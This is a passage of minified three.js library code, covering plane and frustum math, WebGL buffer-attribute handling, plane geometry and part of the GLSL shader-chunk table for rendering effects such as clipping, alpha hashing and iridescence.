this.normal.set(t,e,n),this.constant=i,this}setFromNormalAndCoplanarPoint(t,e){return this.normal.copy(t),this.constant=-e.dot(this.normal),this}setFromCoplanarPoints(t,e,n){const i=ur.subVectors(n,e).cross(dr.subVectors(t,e)).normalize();return this.setFromNormalAndCoplanarPoint(i,t),this}copy(t){return this.normal.copy(t.normal),this.constant=t.constant,this}normalize(){const t=1/this.normal.length();return this.normal.multiplyScalar(t),this.constant*=t,this}negate(){return this.constant*=-1,this.normal.negate(),this}distanceToPoint(t){return this.normal.dot(t)+this.constant}distanceToSphere(t){return this.distanceToPoint(t.center)-t.radius}projectPoint(t,e){return e.copy(t).addScaledVector(this.normal,-this.distanceToPoint(t))}intersectLine(t,e){const n=t.delta(ur),i=this.normal.dot(n);if(0===i)return 0===this.distanceToPoint(t.start)?e.copy(t.start):null;const r=-(t.start.dot(this.normal)+this.constant)/i;return r<0||r>1?null:e.copy(t.start).addScaledVector(n,r)}intersectsLine(t){const e=this.distanceToPoint(t.start),n=this.distanceToPoint(t.end);return e<0&&n>0||n<0&&e>0}intersectsBox(t){return t.intersectsPlane(this)}intersectsSphere(t){return t.intersectsPlane(this)}coplanarPoint(t){return t.copy(this.normal).multiplyScalar(-this.constant)}applyMatrix4(t,e){const n=e||pr.getNormalMatrix(t),i=this.coplanarPoint(ur).applyMatrix4(t),r=this.normal.applyMatrix3(n).normalize();return this.constant=-i.dot(r),this}translate(t){return this.constant-=t.dot(this.normal),this}equals(t){return t.normal.equals(this.normal)&&t.constant===this.constant}clone(){return(new this.constructor).copy(this)}}const mr=new fn,gr=new Xe;class _r{constructor(t=new fr,e=new fr,n=new fr,i=new fr,r=new fr,a=new fr){this.planes=[t,e,n,i,r,a]}set(t,e,n,i,r,a){const o=this.planes;return o[0].copy(t),o[1].copy(e),o[2].copy(n),o[3].copy(i),o[4].copy(r),o[5].copy(a),this}copy(t){const e=this.planes;for(let n=0;n<6;n++)e[n].copy(t.planes[n]);return this}setFromProjectionMatrix(t,e=2e3){const n=this.planes,i=t.elements,r=i[0],a=i[1],o=i[2],s=i[3],l=i[4],c=i[5],h=i[6],u=i[7],d=i[8],p=i[9],f=i[10],m=i[11],g=i[12],_=i[13],v=i[14],y=i[15];if(n[0].setComponents(s-r,u-l,m-d,y-g).normalize(),n[1].setComponents(s+r,u+l,m+d,y+g).normalize(),n[2].setComponents(s+a,u+c,m+p,y+_).normalize(),n[3].setComponents(s-a,u-c,m-p,y-_).normalize(),n[4].setComponents(s-o,u-h,m-f,y-v).normalize(),e===re)n[5].setComponents(s+o,u+h,m+f,y+v).normalize();else{if(e!==ae)throw new Error("THREE.Frustum.setFromProjectionMatrix(): Invalid coordinate system: "+e);n[5].setComponents(o,h,f,v).normalize()}return this}intersectsObject(t){if(void 0!==t.boundingSphere)null===t.boundingSphere&&t.computeBoundingSphere(),mr.copy(t.boundingSphere).applyMatrix4(t.matrixWorld);else{const e=t.geometry;null===e.boundingSphere&&e.computeBoundingSphere(),mr.copy(e.boundingSphere).applyMatrix4(t.matrixWorld)}return this.intersectsSphere(mr)}intersectsSprite(t){return mr.center.set(0,0,0),mr.radius=.7071067811865476,mr.applyMatrix4(t.matrixWorld),this.intersectsSphere(mr)}intersectsSphere(t){const e=this.planes,n=t.center,i=-t.radius;for(let t=0;t<6;t++){if(e[t].distanceToPoint(n)<i)return!1}return!0}intersectsBox(t){const e=this.planes;for(let n=0;n<6;n++){const i=e[n];if(gr.x=i.normal.x>0?t.max.x:t.min.x,gr.y=i.normal.y>0?t.max.y:t.min.y,gr.z=i.normal.z>0?t.max.z:t.min.z,i.distanceToPoint(gr)<0)return!1}return!0}containsPoint(t){const e=this.planes;for(let n=0;n<6;n++)if(e[n].distanceToPoint(t)<0)return!1;return!0}clone(){return(new this.constructor).copy(this)}}function vr(){let t=null,e=!1,n=null,i=null;function r(e,a){n(e,a),i=t.requestAnimationFrame(r)}return{start:function(){!0!==e&&null!==n&&(i=t.requestAnimationFrame(r),e=!0)},stop:function(){t.cancelAnimationFrame(i),e=!1},setAnimationLoop:function(t){n=t},setContext:function(e){t=e}}}function yr(t){const e=new WeakMap;return{get:function(t){return t.isInterleavedBufferAttribute&&(t=t.data),e.get(t)},remove:function(n){n.isInterleavedBufferAttribute&&(n=n.data);const i=e.get(n);i&&(t.deleteBuffer(i.buffer),e.delete(n))},update:function(n,i){if(n.isInterleavedBufferAttribute&&(n=n.data),n.isGLBufferAttribute){const t=e.get(n);return void((!t||t.version<n.version)&&e.set(n,{buffer:n.buffer,type:n.type,bytesPerElement:n.elementSize,version:n.version}))}const r=e.get(n);if(void 0===r)e.set(n,function(e,n){const i=e.array,r=e.usage,a=i.byteLength,o=t.createBuffer();let s;if(t.bindBuffer(n,o),t.bufferData(n,i,r),e.onUploadCallback(),i instanceof Float32Array)s=t.FLOAT;else if(i instanceof Uint16Array)s=e.isFloat16BufferAttribute?t.HALF_FLOAT:t.UNSIGNED_SHORT;else if(i instanceof Int16Array)s=t.SHORT;else if(i instanceof Uint32Array)s=t.UNSIGNED_INT;else if(i instanceof Int32Array)s=t.INT;else if(i instanceof Int8Array)s=t.BYTE;else if(i instanceof Uint8Array)s=t.UNSIGNED_BYTE;else{if(!(i instanceof Uint8ClampedArray))throw new Error("THREE.WebGLAttributes: Unsupported buffer data format: "+i);s=t.UNSIGNED_BYTE}return{buffer:o,type:s,bytesPerElement:i.BYTES_PER_ELEMENT,version:e.version,size:a}}(n,i));else if(r.version<n.version){if(r.size!==n.array.byteLength)throw new Error("THREE.WebGLAttributes: The size of the buffer attribute's array buffer does not match the original size. Resizing buffer attributes is not supported.");!function(e,n,i){const r=n.array,a=n._updateRange,o=n.updateRanges;if(t.bindBuffer(i,e),-1===a.count&&0===o.length&&t.bufferSubData(i,0,r),0!==o.length){for(let e=0,n=o.length;e<n;e++){const n=o[e];t.bufferSubData(i,n.start*r.BYTES_PER_ELEMENT,r,n.start,n.count)}n.clearUpdateRanges()}-1!==a.count&&(t.bufferSubData(i,a.offset*r.BYTES_PER_ELEMENT,r,a.offset,a.count),a.count=-1),n.onUploadCallback()}(r.buffer,n,i),r.version=n.version}}}}class xr extends Pi{constructor(t=1,e=1,n=1,i=1){super(),this.type="PlaneGeometry",this.parameters={width:t,height:e,widthSegments:n,heightSegments:i};const r=t/2,a=e/2,o=Math.floor(n),s=Math.floor(i),l=o+1,c=s+1,h=t/o,u=e/s,d=[],p=[],f=[],m=[];for(let t=0;t<c;t++){const e=t*u-a;for(let n=0;n<l;n++){const i=n*h-r;p.push(i,-e,0),f.push(0,0,1),m.push(n/o),m.push(1-t/s)}}for(let t=0;t<s;t++)for(let e=0;e<o;e++){const n=e+l*t,i=e+l*(t+1),r=e+1+l*(t+1),a=e+1+l*t;d.push(n,i,a),d.push(i,r,a)}this.setIndex(d),this.setAttribute("position",new Mi(p,3)),this.setAttribute("normal",new Mi(f,3)),this.setAttribute("uv",new Mi(m,2))}copy(t){return super.copy(t),this.parameters=Object.assign({},t.parameters),this}static fromJSON(t){return new xr(t.width,t.height,t.widthSegments,t.heightSegments)}}const br={alphahash_fragment:"#ifdef USE_ALPHAHASH\n\tif ( diffuseColor.a < getAlphaHashThreshold( vPosition ) ) discard;\n#endif",alphahash_pars_fragment:"#ifdef USE_ALPHAHASH\n\tconst float ALPHA_HASH_SCALE = 0.05;\n\tfloat hash2D( vec2 value ) {\n\t\treturn fract( 1.0e4 * sin( 17.0 * value.x + 0.1 * value.y ) * ( 0.1 + abs( sin( 13.0 * value.y + value.x ) ) ) );\n\t}\n\tfloat hash3D( vec3 value ) {\n\t\treturn hash2D( vec2( hash2D( value.xy ), value.z ) );\n\t}\n\tfloat getAlphaHashThreshold( vec3 position ) {\n\t\tfloat maxDeriv = max(\n\t\t\tlength( dFdx( position.xyz ) ),\n\t\t\tlength( dFdy( position.xyz ) )\n\t\t);\n\t\tfloat pixScale = 1.0 / ( ALPHA_HASH_SCALE * maxDeriv );\n\t\tvec2 pixScales = vec2(\n\t\t\texp2( floor( log2( pixScale ) ) ),\n\t\t\texp2( ceil( log2( pixScale ) ) )\n\t\t);\n\t\tvec2 alpha = vec2(\n\t\t\thash3D( floor( pixScales.x * position.xyz ) ),\n\t\t\thash3D( floor( pixScales.y * position.xyz ) )\n\t\t);\n\t\tfloat lerpFactor = fract( log2( pixScale ) );\n\t\tfloat x = ( 1.0 - lerpFactor ) * alpha.x + lerpFactor * alpha.y;\n\t\tfloat a = min( lerpFactor, 1.0 - lerpFactor );\n\t\tvec3 cases = vec3(\n\t\t\tx * x / ( 2.0 * a * ( 1.0 - a ) ),\n\t\t\t( x - 0.5 * a ) / ( 1.0 - a ),\n\t\t\t1.0 - ( ( 1.0 - x ) * ( 1.0 - x ) / ( 2.0 * a * ( 1.0 - a ) ) )\n\t\t);\n\t\tfloat threshold = ( x < ( 1.0 - a ) )\n\t\t\t? ( ( x < a ) ? cases.x : cases.y )\n\t\t\t: cases.z;\n\t\treturn clamp( threshold , 1.0e-6, 1.0 );\n\t}\n#endif",alphamap_fragment:"#ifdef USE_ALPHAMAP\n\tdiffuseColor.a *= texture2D( alphaMap, vAlphaMapUv ).g;\n#endif",alphamap_pars_fragment:"#ifdef USE_ALPHAMAP\n\tuniform sampler2D alphaMap;\n#endif",alphatest_fragment:"#ifdef USE_ALPHATEST\n\t#ifdef ALPHA_TO_COVERAGE\n\tdiffuseColor.a = smoothstep( alphaTest, alphaTest + fwidth( diffuseColor.a ), diffuseColor.a );\n\tif ( diffuseColor.a == 0.0 ) discard;\n\t#else\n\tif ( diffuseColor.a < alphaTest ) discard;\n\t#endif\n#endif",alphatest_pars_fragment:"#ifdef USE_ALPHATEST\n\tuniform float alphaTest;\n#endif",aomap_fragment:"#ifdef USE_AOMAP\n\tfloat ambientOcclusion = ( texture2D( aoMap, vAoMapUv ).r - 1.0 ) * aoMapIntensity + 1.0;\n\treflectedLight.indirectDiffuse *= ambientOcclusion;\n\t#if defined( USE_CLEARCOAT ) \n\t\tclearcoatSpecularIndirect *= ambientOcclusion;\n\t#endif\n\t#if defined( USE_SHEEN ) \n\t\tsheenSpecularIndirect *= ambientOcclusion;\n\t#endif\n\t#if defined( USE_ENVMAP ) && defined( STANDARD )\n\t\tfloat dotNV = saturate( dot( geometryNormal, geometryViewDir ) );\n\t\treflectedLight.indirectSpecular *= computeSpecularOcclusion( dotNV, ambientOcclusion, material.roughness );\n\t#endif\n#endif",aomap_pars_fragment:"#ifdef USE_AOMAP\n\tuniform sampler2D aoMap;\n\tuniform float aoMapIntensity;\n#endif",batching_pars_vertex:"#ifdef USE_BATCHING\n\t#if ! defined( GL_ANGLE_multi_draw )\n\t#define gl_DrawID _gl_DrawID\n\tuniform int _gl_DrawID;\n\t#endif\n\tuniform highp sampler2D batchingTexture;\n\tuniform highp usampler2D batchingIdTexture;\n\tmat4 getBatchingMatrix( const in float i ) {\n\t\tint size = textureSize( batchingTexture, 0 ).x;\n\t\tint j = int( i ) * 4;\n\t\tint x = j % size;\n\t\tint y = j / size;\n\t\tvec4 v1 = texelFetch( batchingTexture, ivec2( x, y ), 0 );\n\t\tvec4 v2 = texelFetch( batchingTexture, ivec2( x + 1, y ), 0 );\n\t\tvec4 v3 = texelFetch( batchingTexture, ivec2( x + 2, y ), 0 );\n\t\tvec4 v4 = texelFetch( batchingTexture, ivec2( x + 3, y ), 0 );\n\t\treturn mat4( v1, v2, v3, v4 );\n\t}\n\tfloat getIndirectIndex( const in int i ) {\n\t\tint size = textureSize( batchingIdTexture, 0 ).x;\n\t\tint x = i % size;\n\t\tint y = i / size;\n\t\treturn float( texelFetch( batchingIdTexture, ivec2( x, y ), 0 ).r );\n\t}\n#endif\n#ifdef USE_BATCHING_COLOR\n\tuniform sampler2D batchingColorTexture;\n\tvec3 getBatchingColor( const in float i ) {\n\t\tint size = textureSize( batchingColorTexture, 0 ).x;\n\t\tint j = int( i );\n\t\tint x = j % size;\n\t\tint y = j / size;\n\t\treturn texelFetch( batchingColorTexture, ivec2( x, y ), 0 ).rgb;\n\t}\n#endif",batching_vertex:"#ifdef USE_BATCHING\n\tmat4 batchingMatrix = getBatchingMatrix( getIndirectIndex( gl_DrawID ) );\n#endif",begin_vertex:"vec3 transformed = vec3( position );\n#ifdef USE_ALPHAHASH\n\tvPosition = vec3( position );\n#endif",beginnormal_vertex:"vec3 objectNormal = vec3( normal );\n#ifdef USE_TANGENT\n\tvec3 objectTangent = vec3( tangent.xyz );\n#endif",bsdfs:"float G_BlinnPhong_Implicit( ) {\n\treturn 0.25;\n}\nfloat D_BlinnPhong( const in float shininess, const in float dotNH ) {\n\treturn RECIPROCAL_PI * ( shininess * 0.5 + 1.0 ) * pow( dotNH, shininess );\n}\nvec3 BRDF_BlinnPhong( const in vec3 lightDir, const in vec3 viewDir, const in vec3 normal, const in vec3 specularColor, const in float shininess ) {\n\tvec3 halfDir = normalize( lightDir + viewDir );\n\tfloat dotNH = saturate( dot( normal, halfDir ) );\n\tfloat dotVH = saturate( dot( viewDir, halfDir ) );\n\tvec3 F = F_Schlick( specularColor, 1.0, dotVH );\n\tfloat G = G_BlinnPhong_Implicit( );\n\tfloat D = D_BlinnPhong( shininess, dotNH );\n\treturn F * ( G * D );\n} // validated",iridescence_fragment:"#ifdef USE_IRIDESCENCE\n\tconst mat3 XYZ_TO_REC709 = mat3(\n\t\t 3.2404542, -0.9692660,  0.0556434,\n\t\t-1.5371385,  1.8760108, -0.2040259,\n\t\t-0.4985314,  0.0415560,  1.0572252\n\t);\n\tvec3 Fresnel0ToIor( vec3 fresnel0 ) {\n\t\tvec3 sqrtF0 = sqrt( fresnel0 );\n\t\treturn ( vec3( 1.0 ) + sqrtF0 ) / ( vec3( 1.0 ) - sqrtF0 );\n\t}\n\tvec3 IorToFresnel0( vec3 transmittedIor, float incidentIor ) {\n\t\treturn pow2( ( transmittedIor - vec3( incidentIor ) ) / ( transmittedIor + vec3( incidentIor ) ) );\n\t}\n\tfloat IorToFresnel0( float transmittedIor, float incidentIor ) {\n\t\treturn pow2( ( transmittedIor - incidentIor ) / ( transmittedIor + incidentIor ));\n\t}\n\tvec3 evalSensitivity( float OPD, vec3 shift ) {\n\t\tfloat phase = 2.0 * PI * OPD * 1.0e-9;\n\t\tvec3 val = vec3( 5.4856e-13, 4.4201e-13, 5.2481e-13 );\n\t\tvec3 pos = vec3( 1.6810e+06, 1.7953e+06, 2.2084e+06 );\n\t\tvec3 var = vec3( 4.3278e+09, 9.3046e+09, 6.6121e+09 );\n\t\tvec3 xyz = val * sqrt( 2.0 * PI * var ) * cos( pos * phase + shift ) * exp( - pow2( phase ) * var );\n\t\txyz.x += 9.7470e-14 * sqrt( 2.0 * PI * 4.5282e+09 ) * cos( 2.2399e+06 * phase + shift[ 0 ] ) * exp( - 4.5282e+09 * pow2( phase ) );\n\t\txyz /= 1.0685e-7;\n\t\tvec3 rgb = XYZ_TO_REC709 * xyz;\n\t\treturn rgb;\n\t}\n\tvec3 evalIridescence( float outsideIOR, float eta2, float cosTheta1, float thinFilmThickness, vec3 baseF0 ) {\n\t\tvec3 I;\n\t\tfloat iridescenceIOR = mix( outsideIOR, eta2, smoothstep( 0.0, 0.03, thinFilmThickness ) );\n\t\tfloat sinTheta2Sq = pow2( outsideIOR / iridescenceIOR ) * ( 1.0 - pow2( cosTheta1 ) );\n\t\tfloat cosTheta2Sq = 1.0 - sinTheta2Sq;\n\t\tif ( cosTheta2Sq < 0.0 ) {\n\t\t\treturn vec3( 1.0 );\n\t\t}\n\t\tfloat cosTheta2 = sqrt( cosTheta2Sq );\n\t\tfloat R0 = IorToFresnel0( iridescenceIOR, outsideIOR );\n\t\tfloat R12 = F_Schlick( R0, 1.0, cosTheta1 );\n\t\tfloat T121 = 1.0 - R12;\n\t\tfloat phi12 = 0.0;\n\t\tif ( iridescenceIOR < outsideIOR ) phi12 = PI;\n\t\tfloat phi21 = PI - phi12;\n\t\tvec3 baseIOR = Fresnel0ToIor( clamp( baseF0, 0.0, 0.9999 ) );\t\tvec3 R1 = IorToFresnel0( baseIOR, iridescenceIOR );\n\t\tvec3 R23 = F_Schlick( R1, 1.0, cosTheta2 );\n\t\tvec3 phi23 = vec3( 0.0 );\n\t\tif ( baseIOR[ 0 ] < iridescenceIOR ) phi23[ 0 ] = PI;\n\t\tif ( baseIOR[ 1 ] < iridescenceIOR ) phi23[ 1 ] = PI;\n\t\tif ( baseIOR[ 2 ] < iridescenceIOR ) phi23[ 2 ] = PI;\n\t\tfloat OPD = 2.0 * iridescenceIOR * thinFilmThickness * cosTheta2;\n\t\tvec3 phi = vec3( phi21 ) + phi23;\n\t\tvec3 R123 = clamp( R12 * R23, 1e-5, 0.9999 );\n\t\tvec3 r123 = sqrt( R123 );\n\t\tvec3 Rs = pow2( T121 ) * R23 / ( vec3( 1.0 ) - R123 );\n\t\tvec3 C0 = R12 + Rs;\n\t\tI = C0;\n\t\tvec3 Cm = Rs - T121;\n\t\tfor ( int m = 1; m <= 2; ++ m ) {\n\t\t\tCm *= r123;\n\t\t\tvec3 Sm = 2.0 * evalSensitivity( float( m ) * OPD, float( m ) * phi );\n\t\t\tI += Cm * Sm;\n\t\t}\n\t\treturn max( I, vec3( 0.0 ) );\n\t}\n#endif",bumpmap_pars_fragment:"#ifdef USE_BUMPMAP\n\tuniform sampler2D bumpMap;\n\tuniform float bumpScale;\n\tvec2 dHdxy_fwd() {\n\t\tvec2 dSTdx = dFdx( vBumpMapUv );\n\t\tvec2 dSTdy = dFdy( vBumpMapUv );\n\t\tfloat Hll = bumpScale * texture2D( bumpMap, vBumpMapUv ).x;\n\t\tfloat dBx = bumpScale * texture2D( bumpMap, vBumpMapUv + dSTdx ).x - Hll;\n\t\tfloat dBy = bumpScale * texture2D( bumpMap, vBumpMapUv + dSTdy ).x - Hll;\n\t\treturn vec2( dBx, dBy );\n\t}\n\tvec3 perturbNormalArb( vec3 surf_pos, vec3 surf_norm, vec2 dHdxy, float faceDirection ) {\n\t\tvec3 vSigmaX = normalize( dFdx( surf_pos.xyz ) );\n\t\tvec3 vSigmaY = normalize( dFdy( surf_pos.xyz ) );\n\t\tvec3 vN = surf_norm;\n\t\tvec3 R1 = cross( vSigmaY, vN );\n\t\tvec3 R2 = cross( vN, vSigmaX );\n\t\tfloat fDet = dot( vSigmaX, R1 ) * faceDirection;\n\t\tvec3 vGrad = sign( fDet ) * ( dHdxy.x * R1 + dHdxy.y * R2 );\n\t\treturn normalize( abs( fDet ) * surf_norm - vGrad );\n\t}\n#endif",clipping_planes_fragment:"#if NUM_CLIPPING_PLANES > 0\n\tvec4 plane;\n\t#ifdef ALPHA_TO_COVERAGE\n\t\tfloat distanceToPlane, distanceGradient;\n\t\tfloat clipOpacity = 1.0;\n\t\t#pragma unroll_loop_start\n\t\tfor ( int i = 0; i < UNION_CLIPPING_PLANES; i ++ ) {\n\t\t\tplane = clippingPlanes[ i ];\n\t\t\tdistanceToPlane = - dot( vClipPosition, plane.xyz ) + plane.w;\n\t\t\tdistanceGradient = fwidth( distanceToPlane ) / 2.0;\n\t\t\tclipOpacity *= smoothstep( - distanceGradient, distanceGradient, distanceToPlane );\n\t\t\tif ( clipOpacity == 0.0 ) discard;\n\t\t}\n\t\t#pragma unroll_loop_end\n\t\t#if UNION_CLIPPING_PLANES < NUM_CLIPPING_PLANES\n\t\t\tfloat unionClipOpacity = 1.0;\n\t\t\t#pragma unroll_loop_start\n\t\t\tfor ( int i = UNION_CLIPPING_PLANES; i < NUM_CLIPPING_PLANES; i ++ ) {\n\t\t\t\tplane = clippingPlanes[ i ];\n\t\t\t\tdistanceToPlane = - dot( vClipPosition, plane.xyz ) + plane.w;\n\t\t\t\tdistanceGradient = fwidth( distanceToPlane ) / 2.0;\n\t\t\t\tunionClipOpacity *= 1.0 - smoothstep( - distanceGradient, distanceGradient, distanceToPlane );\n\t\t\t}\n\t\t\t#pragma unroll_loop_end\n\t\t\tclipOpacity *= 1.0 - unionClipOpacity;\n\t\t#endif\n\t\tdiffuseColor.a *= clipOpacity;\n\t\tif ( diffuseColor.a == 0.0 ) discard;\n\t#else\n\t\t#pragma unroll_loop_start\n\t\tfor ( int i = 0; i < UNION_CLIPPING_PLANES; i ++ ) {\n\t\t\tplane = clippingPlanes[ i ];\n\t\t\tif ( dot( vClipPosition, plane.xyz ) > plane.w ) discard;\n\t\t}\n\t\t#pragma unroll_loop_end\n\t\t#if UNION_CLIPPING_PLANES < NUM_CLIPPING_PLANES\n\t\t\tbool clipped = true;\n\t\t\t#pragma unroll_loop_start\n\t\t\tfor ( int i = UNION_CLIPPING_PLANES; i < NUM_CLIPPING_PLANES; i ++ ) {\n\t\t\t\tplane = clippingPlanes[ i ];\n\t\t\t\tclipped = ( dot( vClipPosition, plane.xyz ) > plane.w ) && clipped;\n\t\t\t}\n\t\t\t#pragma unroll_loop_end\n\t\t\tif ( clipped ) discard;\n\t\t#endif\n\t#endif\n#endif",clipping_planes_pars_fragment:"#if NUM_CLIPPING_PLANES > 0\n\tvarying vec3 vClipPosition;\n\tuniform vec4 clippingPlanes[ NUM_CLIPPING_PLANES ];\n#endif",clipping_planes_pars_vertex:"#if NUM_CLIPPING_PLANES > 0\n\tvarying vec3 vClipPosition;\n#endif",clipping_planes_vertex:"#if NUM_CLIPPING_PLANES > 0\n\tvClipPosition = - mvPosition.xyz;\n#endif",color_fragment:"#if defined( USE_COLOR_ALPHA )\n\tdiffuseColor *= vColor;\n#elif defined( USE_COLOR )\n\tdiffuseColor.rgb *= vColor;\n#endif",color_pars_fragment:"#if defined( USE_COLOR_ALPHA )\n\tvarying vec4 vColor;\n#elif defined( USE_COLOR )\n\tvarying vec3 vColor;\n#endif",color_pars_vertex:"#if defined( USE_COLOR_ALPHA )\n\tvarying vec4 vColor;\n#elif defined( USE_COLOR ) || defined( USE_INSTANCING_COLOR ) || defined( USE_BATCHING_COLOR )\n\tvarying vec3 vColor;\n#endif",color_vertex:"#if defined( USE_COLOR_ALPHA )\n\tvColor = vec4( 1.0 );\n#elif defined( USE_COLOR ) || defined( USE_INSTANCING_COLOR ) || defined( USE_BATCHING_COLOR )\n\tvColor = vec3( 1.0 );\n#endif\n#ifdef USE_COLOR\n\tvColor *= color;\n#endif\n#ifdef USE_INSTANCING_COLOR\n\tvColor.xyz *= instanceColor.xyz;\n#endif\n#ifdef USE_BATCHING_COLOR\n\tvec3 batchingColor = getBatchingColor( getIndirectIndex( gl_DrawID ) );\n\tvColor.xyz *= batchingColor.xyz;\n#endif",common:"#define PI 3.141592653589793\n#define PI2 6.283185307179586\n#define PI_HALF 1.5707963267948966\n#define RECIPROCAL_PI 0.3183098861837907\n#define RECIPROCAL_PI2 0.15915494309189535\n#define EPSILON 1e-6\n#ifndef saturate\n#define saturate( a ) clamp( a, 0.0, 1.0 )\n#endif\n#define whiteComplement( a ) ( 1.0 - saturate( a ) )\nfloat pow2( const in float x ) { return x*x; }\nvec3 pow2( const in vec3 x ) { return x*x; }\nfloat pow3( const in float x ) { return x*x*x; }\nfloat pow4( const in float x ) { float x2 = x*x; return x2*x2; }\nfloat max3( const in vec3 v ) { return max( max( v.x, v.y ), v.z ); }\nfloat average( const in vec3 v ) { return dot( v, vec3( 0.3333333 ) ); }\nhighp float rand( const in vec2 uv ) {\n\tconst highp float a = 12.9898, b = 78.233, c = 43758.5453;\n\thighp float dt = dot( uv.xy, vec2( a,b ) ), sn = mod( dt, PI );\n\treturn fract( sin( sn ) * c );\n}\n#ifdef HIGH_PRECISION\n\tfloat precisionSafeLength( vec3 v ) { return length( v ); }\n#else\n\tfloat precisionSafeLength( vec3 v ) {\n\t\tfloat maxComponent = max3( abs( v ) );\n\t\treturn length( v / maxComponent ) * maxComponent;\n\t}\n#endif\nstruct IncidentLight {\n\tvec3 color;\n\tvec3 direction;\n\tbool visible;\n};\nstruct ReflectedLight {\n\tvec3 directDiffuse;\n\tvec3 directSpecular;\n\tvec3 indirectDiffuse;\n\tvec3 indirectSpecular;\n};\n#ifdef USE_ALPHAHASH\n\tvarying vec3 vPosition;\n#endif\nvec3 transformDirection( in vec3 dir, in mat4 matrix ) {\n\treturn normalize( ( matrix * vec4( dir, 0.0 ) ).xyz );\n}\nvec3 inverseTransformDirection( in vec3 dir, in mat4 matrix ) {\n\treturn normalize( ( vec4( dir, 0.0 ) * matrix ).xyz );\n}\nmat3 transposeMat3( const in mat3 m ) {\n\tmat3 tmp;\n\ttmp[ 0 ] = vec3( m[ 0 ].x, m[ 1 ].x, m[ 2 ].x );\n\ttmp[ 1 ] = vec3( m[ 0 ].y, m[ 1 ].y, m[ 2 ].y );\n\ttmp[ 2 ] = vec3( m[ 0 ].z, m[ 1 ].z, m[ 2 ].z );\n\treturn tmp;\n}\nbool isPerspectiveMatrix( mat4 m ) {\n\treturn m[ 2 ][ 3 ] == - 1.0;\n}\nvec2 equirectUv( in vec3 dir ) {\n\tfloat u = atan( dir.z, dir.x ) * RECIPROCAL_PI2 + 0.5;\n\tfloat v = asin( clamp( dir.y, - 1.0, 1.0 ) ) * RECIPROCAL_PI + 0.5;\n\treturn vec2( u, v );\n}\nvec3 BRDF_Lambert( const in vec3 diffuseColor ) {\n\treturn RECIPROCAL_PI * diffuseColor;\n}\nvec3 F_Schlick( const in vec3 f0, const in float f90, const in float dotVH ) {\n\tfloat fresnel = exp2( ( - 5.55473 * dotVH - 6.98316 ) * dotVH );\n\treturn f0 * ( 1.0 - fresnel ) + ( f90 * fresnel );\n}\nfloat F_Schlick( const in float f0, const in float f90, const in float dotVH ) {\n\tfloat fresnel = exp2( ( - 5.55473 * dotVH - 6.98316 ) * dotVH );\n\treturn f0 * ( 1.0 - fresnel ) + ( f90 * fresnel );\n} // validated",cube_uv_reflection_fragment:"#ifdef ENVMAP_TYPE_CUBE_UV\n\t#define cubeUV_minMipLevel 4.0\n\t#define cubeUV_minTileSize 16.0\n\tfloat getFace( vec3 direction ) {\n\t\tvec3 absDirection = abs( direction );\n\t\tfloat face = - 1.0;\n\t\tif ( absDirection.x > absDirection.z ) {\n\t\t\tif ( absDirection.x > absDirection.y )\n\t\t\t\tface = direction.x > 0.0 ? 0.0 : 3.0;\n\t\t\telse\n\t\t\t\tface = direction.y > 0.0 ? 1.0 : 4.0;\n\t\t} else {\n\t\t\tif ( absDirection.z > absDirection.y )\n\t\t\t\tface = direction.z > 0.0 ? 2.0 : 5.0;\n\t\t\telse\n\t\t\t\tface = direction.y > 0.0 ? 1.0 : 4.0;\n\t\t}\n\t\treturn face;\n\t}\n\tvec2 getUV( vec3 direction, float face ) {\n\t\tvec2 uv;\n\t\tif ( face == 0.0 ) {\n\t\t\tuv = vec2( direction.z, direction.y ) / abs( direction.x );\n\t\t} else if ( face == 1.0 ) {\n\t\t\tuv = vec2( - direction.x, - direction.z ) / abs( direction.y );\n\t\t} else if ( face == 2.0 ) {\n\t\t\tuv = vec2( - direction.x, direction.y ) / abs( direction.z );\n\t\t} else if ( face == 3.0 ) {\n\t\t\tuv = vec2( - direction.z, direction.y ) / abs( direction.x );\n\t\t} else if ( face == 4.0 ) {\n\t\t\tuv = vec2( - direction.x, direction.z ) / abs( direction.y );\n\t\t} else {\n\t\t\tuv = vec2( direction.x, direction.y ) / abs( direction.z );\n\t\t}\n\t\treturn 0.5 * ( uv + 1.0 );\n\t}\n\tvec3 bilinearCubeUV( sampler2D envMap, vec3 direction, float mipInt ) {\n\t\tfloat face = getFace( direction );\n\t\tfloat filterInt = max( cubeUV_minMipLevel - mipInt, 0.0 );\n\t\tmipInt = max( mipInt, cubeUV_minMipLevel );\n\t\tfloat faceSize = exp2( mipInt );\n\t\thighp vec2 uv = getUV( direction, face ) * ( faceSize - 2.0 ) + 1.0;\n\t\tif ( face > 2.0 ) {\n\t\t\tuv.y += faceSize;\n\t\t\tface -= 3.0;\n\t\t}\n\t\tuv.x += face * faceSize;\n\t\tuv.x += filterInt * 3.0 * cubeUV_minTileSize;\n\t\tuv.y += 4.0 * ( exp2( CUBEUV_MAX_MIP ) - faceSize );\n\t\tuv.x *= CUBEUV_TEXEL_WIDTH;\n\t\tuv.y *= CUBEUV_TEXEL_HEIGHT;\n\t\t#ifdef texture2DGradEXT\n\t\t\treturn texture2DGradEXT( envMap, uv, vec2( 0.0 ), vec2( 0.0 ) ).rgb;\n\t\t#else\n\t\t\treturn texture2D( envMap, uv ).rgb;\n\t\t#endif\n\t}\n\t#define cubeUV_r0 1.0\n\t#define cubeUV_m0 - 2.0\n\t#define cubeUV_r1 0.8\n\t#define cubeUV_m1 - 1.0\n\t#define cubeUV_r4 0.4\n\t#define cubeUV_m4 2.0\n\t#define cubeUV_r5 0.305\n\t#define cubeUV_m5 3.0\n\t#define cubeUV_r6 0.21\n\t#define cubeUV_m6 4.0\n\tfloat roughnessToMip( float roughness ) {\n\t\tfloat mip = 0.0;\n\t\tif ( roughness >= cubeUV_r1 ) {\n\t\t\tmip = ( cubeUV_r0 - roughness ) * ( cubeUV_m1 - cubeUV_m0 ) / ( cubeUV_r0 - cubeUV_r1 ) + cubeUV_m0;\n\t\t} else if ( roughness >= cubeUV_r4 ) {\n\t\t\tmip = ( cubeUV_r1 - roughness ) * ( cubeUV_m4 - cubeUV_m1 ) / ( cubeUV_r1 - cubeUV_r4 ) + cubeUV_m1;\n\t\t} else if ( roughness >= cubeUV_r5 ) {\n\t\t\tmip = ( cubeUV_r4 - roughness ) * ( cubeUV_m5 - cubeUV_m4 ) / ( cubeUV_r4 - cubeUV_r5 ) + cubeUV_m4;\n\t\t} else if ( roughness >= cubeUV_r6 ) {\n\t\t\tmip = ( cubeUV_r5 - roughness ) * ( cubeUV_m6 - cubeUV_m5 ) / ( cubeUV_r5 - cubeUV_r6 ) + cubeUV_m5;\n\t\t} 